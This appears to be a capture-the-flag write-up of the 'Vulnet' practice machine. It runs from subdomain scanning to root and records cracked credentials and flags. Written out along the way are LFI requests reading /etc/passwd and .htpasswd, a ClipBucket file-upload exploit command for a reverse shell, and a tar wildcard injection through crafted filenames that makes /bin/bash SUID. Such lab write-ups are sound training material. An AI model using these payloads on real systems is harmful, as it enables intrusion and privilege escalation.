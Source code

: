 # Vulnet<br>
IP: 10.10.180.218 <br> Difficulty: Medium<br>

## Enumeration

Saved the IP in hosts file with vulnet.thm name.
Scanned the IP with rustscan and got 2 port open: 22, 80
Started a gobuster scan on the URL but got nothing.
Then started a subdomain scan using gobuster:

```
gobuster vhost -u http://vulnet.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

Got two sub-domains:

```
gc._msdcs.vulnet.thm
broadcast.vulnet.thm
```

The 2nd one was valid. But it was a HTTP login form. But I had no correct creds.

Now I began to enumerate source code and found an intresting piece of code in /js/index__d8338055.js.

```
http://vulnnet.thm/index.php?referer=",n(n.s=0)}
```

It takes a referer parameter. So I tried to perform LFI.

```
http://vulnnet.thm/index.php?referer=/etc/passwd
```

And it gave passwd file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:107:117::/nonexistent:/bin/false
kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
```

There are two users: root and server-management.

Since we got HTTP login page, its credentials are defaultly present in /etc/apache2/.htpasswd file.

```
http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd
```

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

I cracked the hash with john.

```
developers:9972761drmfsls
```

Logged into the website using these creds and found that the web-server was using clipBucket. 
Searched for any available exploits on searchsploit and found that there is arbitrary file upload vulnerability.

```
curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/photo_uploader.php"
```

Uploaded a reverse shell using this command. This was uploaded in http://broadcast.vulnnet.thm/files/photos. Got a reverse shell.

## User.txt

Got mysql credentials in /var/www/html/includes/dbconnect.php.

```
admin:VulnNetAdminPass0990
```

But got nothing interesting in it.
There were many backup files in /var/backups owned by root and server-management.
But there was a file ssh-backups.tar.gz owned by server-management. Transferred this file into my machine and extracted the id_rsa.

```
tar xvf ssh-backups.tar.gz
```

Got an encrypted id_rsa file.
Used ssh2john and then john to crack the id_rsa.

```
id_rsa: oneTWO3gOyac
```

ssh into machine as server-management.
User.txt was in his home.

```
THM{907e420d979d8e2992f3d7e16bee1e8b}
```

## Root.txt

There was a cronjob running as root which was backing up files from server-management/Documents using tar command.

We can escalate our privellege by creating some files in this directory.

```
echo "chmod +s /bin/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```

After the cronjob takes action, the /bin/bash will have setUID bit on.

To escalate privellege:

```
/bin/bash -p
```

```
THM{220b671dd8adc301b34c2738ee8295ba}
```
